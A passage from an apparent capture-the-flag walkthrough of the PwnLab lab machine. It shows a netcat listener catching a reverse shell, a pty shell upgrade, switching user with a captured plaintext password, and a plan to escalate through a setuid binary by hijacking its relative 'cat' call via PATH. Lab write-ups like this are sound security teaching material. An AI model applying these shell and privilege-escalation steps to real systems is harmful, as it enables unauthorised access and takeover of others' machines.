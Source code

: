 
```bash
kali@kali:~$ nc -nlvp 7777
listening on [any] 7777 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.115] 55523
Linux pwnlab 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt20-1+deb8u4 (2016-02-29) i686 GNU/Linux
 00:06:06 up  6:13,  0 users,  load average: 0.00, 0.01, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

I changed my shell to a more upgraded one and checked both `sudo -l` and the home directory on all of the accounts I obtained the credentials for earlier. `sudo` didn't work for any of them, and I couldn't even `su` to the `mike` user, which led me to suspect that `mike` was somehow important or related to my next steps. After all, at this point my privileges were still very limited which I needed to elevate to full ones in order to gain complete control of the target's system. I found something interesting in `kane`s home directory:

```sh
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ su kane
su kane
Password: iSv5Ym2GRo
kane@pwnlab:/$ cd /home/kane
cd /home/kane
kane@pwnlab:~$ ls -al
ls -al
total 28
drwxr-x--- 2 kane kane 4096 Mar 17  2016 .
drwxr-xr-x 6 root root 4096 Mar 17  2016 ..
-rw-r--r-- 1 kane kane  220 Mar 17  2016 .bash_logout
-rw-r--r-- 1 kane kane 3515 Mar 17  2016 .bashrc
-rwsr-sr-x 1 mike mike 5148 Mar 17  2016 msgmike
-rw-r--r-- 1 kane kane  675 Mar 17  2016 .profile
kane@pwnlab:~$ file msgmike
file msgmike
msgmike: setuid, setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=d7e0b21f33b2134bd17467c3bb9be37deb88b365, not stripped
kane@pwnlab:~$ ./msgmike
./msgmike
cat: /home/mike/msg.txt: No such file or directory
```

Looked like I was right about the suspicion I had about the `mike` user. Looking closely at `cat: /home/mike/msg.txt: No such file or directory`, I figured out that `cat` was missing the full path to the `cat` binary. This meant I could create another file called `cat` and prioritize it by adding the path that new file resided in to my `$PATH`variable. This would result in my newly created `cat` file being executed instead of the `cat` binary that was originally intended to execute. The new `cat` file would be run as the `mike` user.
